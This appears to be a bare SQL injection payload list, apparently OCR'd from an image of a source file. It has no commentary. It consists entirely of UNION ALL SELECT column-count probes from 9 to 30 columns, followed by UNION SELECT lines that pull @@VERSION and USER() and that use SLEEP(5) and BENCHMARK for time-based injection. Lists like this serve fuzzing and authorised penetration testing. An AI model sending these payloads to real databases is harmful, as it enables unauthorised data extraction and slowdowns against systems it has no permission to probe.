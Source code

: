 ```
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
 UNION SELECT @@VERSION,SLEEP(5),3
 UNION SELECT @@VERSION,SLEEP(5),USER(),4
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
```